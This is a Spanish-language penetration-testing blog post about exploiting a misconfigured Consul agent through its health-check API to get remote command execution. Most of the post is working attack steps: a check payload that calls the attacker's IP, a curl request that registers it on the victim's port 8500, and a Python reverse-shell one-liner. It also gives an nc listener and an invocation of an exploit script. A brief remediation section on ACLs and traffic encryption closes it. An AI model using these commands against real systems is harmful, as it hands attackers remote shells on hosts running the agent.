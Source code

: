 ```yaml
---
title: "Explotar Consul para obtener una reverse shell"
author: Adan Alvarez
classes: wide
excerpt: "Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente."
categories:
  - Herramientas
tags:
  - Red Team
  - Pentest
  - Reverse Shell
---
```

Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente.
{: style="text-align: justify;"}

[Consul](https://www.consul.io/) es una herramienta para el descubrimiento y configuración de servicios. Entre otras funcionalidades permite el descubrimiento de servicios, alertas sobre la salud de los clusters, almacenamiento de configuraciones dinámicas etc...
{: style="text-align: justify;"}

La funcionalidad que explotaremos en este caso es la de alertas del cluster. Los agentes de consul permiten crear [checks de salud mediante la API](https://www.consul.io/api/agent/check.html). Estos [checks](https://www.consul.io/docs/agent/checks.html) pueden ser de diferentes tipos, incluso pueden permitir la ejecución de scripts.
{: style="text-align: justify;"}

Verificando la ejecución de comandos
------------------------------------

Por defecto, los agentes de consul escuchan en el puerto 8500 y permiten peticiones HTTP. Durante un pentest, si descubrimos un puerto 8500 abierto será importante verificar si se trata de la API de consul. Para esto,  podemos realizar un simple: curl ip:8500 y la respuesta será Consul Agent.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1-300x85.png)](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1.png)

Si realmente es un Consul Agent podemos utilizar la función de checks para ejecutar código.  Podemos hacer una prueba creando un fichero con el siguiente contenido llamado payload.json:
{: style="text-align: justify;"}
```
{
"ID": "command",
"Name": "id",
"Args": ["curl", "IP_PROPIA"],
"Shell": "/bin/bash",
"Interval": "5s"
}
```
y ejecutando el siguiente curl para crear el check:
{: style="text-align: justify;"}
```
curl --request PUT --data @payload.json http://IP_VICTIMA:8500/v1/agent/check/register
```
Levantamos un servidor web con python y si funciona recibiremos una petición web del servidor en nuestra IP:
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/webserver-300x56.png)](https://donttouchmynet.github.io/assets/images/old/webserver.png)

Si queremos desregistrar el check podemos utilizar:
{: style="text-align: justify;"}
```
curl --request PUT http://IP_VICTIMA:8500/v1/agent/check/deregister/command
```
Explotar consul y obtener una reverse shell
-------------------------------------------

Si la ejecución de comandos funciona. El próximo paso puede ser explotar Consul para obtener una shell remota, para esto podemos utilizar python ejecutando:
{: style="text-align: justify;"}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Para facilitar la explotación podéis utilizar el siguiente script: [exploit-consul](https://github.com/adanalvarez/exploit-consul) que podéis encontrar también en nuestra sección de [herramientas](https://donttouchmynet.github.io/categories/#herramientas/).
{: style="text-align: justify;"}

Para obtener una reverse shell primero utilizaremos el comando nc -lvp 4567 para esperar una conexión en el puerto 4567.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/nc-1-300x65.png)](https://donttouchmynet.github.io/assets/images/old/nc-1.png)

Tras esto ejecutamos el script indicando la URL, nuestra IP y el puerto de escucha de nc:
{: style="text-align: justify;"}
```
python consul_exploit.py --url http://IP_VICTIMA:8500 --ip IP_PROPIA --port 4567
```
[![exploit consul](https://donttouchmynet.github.io/assets/images/old/python_exploit-300x16.png)](https://donttouchmynet.github.io/assets/images/old/python_exploit.png)

Al cabo de unos segundos recibiremos la reverse shell:
{: style="text-align: justify;"}

[![exploit consul](https://donttouchmynet.github.io/assets/images/old/nc_reverse-300x121.png)](https://donttouchmynet.github.io/assets/images/old/nc_reverse.png)

Remediación
-----------

Consul no opera en una configuración segura por defecto por lo que las diferentes configuraciones de seguridad deben ser activadas.
{: style="text-align: justify;"}

Consul se debe configurar para [usar ACLs](https://www.consul.io/docs/guides/acl.html#complete-acl-coverage-in-consul-0-8) con listas blancas para así solo permitir accesos mediante tokens válidos. Además se debe habilitar la opción de [cifrado de tráfico](https://www.consul.io/docs/agent/encryption.html) para evitar que las peticiones se envíen en texto plano.
{: style="text-align: justify;"}

